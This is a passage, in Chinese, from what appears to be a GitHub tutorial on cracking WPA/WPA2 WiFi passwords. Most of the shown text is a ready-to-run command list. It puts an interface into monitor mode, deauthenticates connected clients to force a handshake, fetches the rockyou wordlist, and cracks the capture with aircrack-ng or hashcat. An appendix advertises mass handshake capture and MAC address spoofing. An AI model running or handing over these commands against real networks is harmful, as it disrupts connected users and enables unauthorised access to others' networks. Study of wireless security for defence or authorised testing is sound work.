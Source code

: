 你也可以选择得通过广播解除认证数据包到所有连接的客户端：

```bash
# 尽管不是所有的客户端都会响应广播解除认证
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```

发送了解除认证数据包后，回到你的 `airodump-ng` 进程，运气好的话你现在应该看到右上角：`[WPA握手：9C：5C：8E：C9：AB：C0`。 现在你已经捕获了握手，你应该准备好[破解网络密码](#crack-the-network-password)。

## 命令列表

下面列出了破解WPA/WPA2网络所需的所有命令，以最少的解释为依据。

```bash
# 将你的设备设置成监测模式
airmon-ng start wlan0

# 监听附近所有的 beacon 帧来获取目标 BSSID 以及信道
airodump-ng mon0

# 开始监听握手
airodump-ng -c 6 --bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

# 选择性的对于连接的设备进行解除验证从而强制握手
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

########## 利用 aircrack-ng 破解密码... ##########

# 如果需要的话下载 134MB 的 rockyou.txt 字典文件
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# 利用 w/ aircrack-ng 破解
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## 或者利用 naive-hashcat 破解密码 ##########

# 将 cap 转换成 hccapx
cap2hccapx.bin capture/-01.cap capture/-01.hccapx

# 利用 naive-hashcat 破解
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

## 附录

非常欢迎对这篇教程进行回复，我已经添加了社区成员的建议和附加资料作为[附录](#appendix.zh.md)。它包括：

- 在 MacOS/OSX 上捕获握手并且破解WPA密码
- 利用 `wlandump-ng` 捕获从你周围每个网络捕获握手
- 使用 `crunch` 即时生成 100+GB 的单词列表
- 利用 `macchanger` 伪造你的 MAC 地址
